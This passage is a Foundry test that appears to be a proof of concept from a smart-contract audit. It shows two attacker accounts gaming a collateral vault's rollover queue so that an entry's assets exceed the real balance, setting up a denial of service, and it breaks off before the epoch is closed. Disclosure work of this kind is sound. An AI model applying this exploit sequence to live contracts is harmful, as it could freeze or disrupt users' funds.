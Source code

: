 ```solidity
        // i am showing the simplest method, however there is another potential attack vector to perform this as well

        // attacker first has both accounts deposit funds in the collateral vault
        vm.prank(attacker1);
        collateralVault.depositETH{value:10001}(
            epochId2,attacker1
        );
        vm.prank(attacker2);
        collateralVault.depositETH{value:10000}(
            epochId2,attacker2
        );
        // attacker has both accounts enlist in the rollover queue
        vm.prank(attacker1);
        collateralVault.enlistInRollover(
            epochId2,10000,attacker1
        );
        vm.prank(attacker2);
        collateralVault.enlistInRollover(
            epochId2,10000,attacker2
        );
        // attacker tricks the rolloverQueue into including an entry where `assets` > their actual balance
        vm.prank(attacker1);
        collateralVault.enlistInRollover(
            epochId2,10001,attacker1
        );
        vm.prank(attacker1); // after this the `assets` for attacker2 > their actual balance
        collateralVault.enlistInRollover(
            epochId2,10001,attacker1
        );

        // showing that this invariant has been broken, will later demonstrate the DOS
        (uint256 assets_,address receiver_,uint256 epochId_) = collateralVault.rolloverQueue(1);
        assertEq(receiver_,attacker2);
        assertGt(assets_,collateralVault.balanceOf(attacker2,epochId_));

        // simulating some additional normal behavior
        // another normal user deposits into epoch 2 in the collateral vault & adds to rollover queue
        vm.prank(user2);
        collateralVault.depositETH{value:10e18}(
            epochId2,user2
        );
        vm.prank(user2);
        collateralVault.enlistInRollover(
            epochId2,10e18,user2
        );

        vm.warp(block.timestamp+20); // second epoch has started

        // create the third epoch
        vm.prank(admin);
        (uint256 epochId3,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+11); // second epoch has ended

        // epoch 2 has ended, trigger end of the epoch
```